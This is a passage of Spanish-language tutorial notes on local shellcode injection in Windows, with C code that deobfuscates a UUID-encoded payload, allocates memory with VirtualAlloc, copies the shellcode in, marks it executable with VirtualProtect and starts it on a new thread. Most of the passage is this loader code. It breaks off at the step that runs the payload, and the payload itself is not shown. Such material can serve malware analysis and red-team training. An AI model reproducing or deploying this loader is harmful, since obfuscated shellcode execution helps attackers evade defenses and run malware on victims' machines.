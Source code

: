 
- En el ejemplo a continuación, WaitForSingleObject esperará indefinidamente a que el nuevo hilo termine de ejecutarse.

```c
HANDLE hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
WaitForSingleObject(hThread, INFINTE);
```

---


## Main function

La función principal utiliza `UuidDeobfuscation` para desobfuscar el payload, luego asigna memoria, copia el shellcode a la región de memoria y lo ejecuta.

```c
int main() {

    PBYTE       pDeobfuscatedPayload  = NULL;
    SIZE_T      sDeobfuscatedSize     = NULL;

    printf("[i] Injecting Shellcode The Local Process Of Pid: %d \n", GetCurrentProcessId());
    printf("[#] Press <Enter> To Decrypt ... ");
    getchar();

    printf("[i] Decrypting ...");

    // if not
    if (!UuidDeobfuscation(UuidArray, NumberOfElements, &pDeobfuscatedPayload, &sDeobfuscatedSize)) {
        return -1;
    }
    printf("[+] DONE !\n");
    printf("[i] Deobfuscated Payload At : 0x%p Of Size : %d \n", pDeobfuscatedPayload, sDeobfuscatedSize);

    printf("[#] Press <Enter> To Allocate ... ");
    getchar();
    // alocamos memoria
    PVOID pShellcodeAddress = VirtualAlloc(NULL, sDeobfuscatedSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    //if not
    if (pShellcodeAddress == NULL) {
        printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }
    printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);

    printf("[#] Press <Enter> To Write Payload ... ");
    getchar();
    // tambien podemos usar RtlMoveMemory de ntdll.dll
    memcpy(pShellcodeAddress, pDeobfuscatedPayload, sDeobfuscatedSize);
    memset(pDeobfuscatedPayload, '\0', sDeobfuscatedSize);


    DWORD dwOldProtection = NULL;

    if (!VirtualProtect(pShellcodeAddress, sDeobfuscatedSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }

    printf("[#] Press <Enter> To Run ... ");
```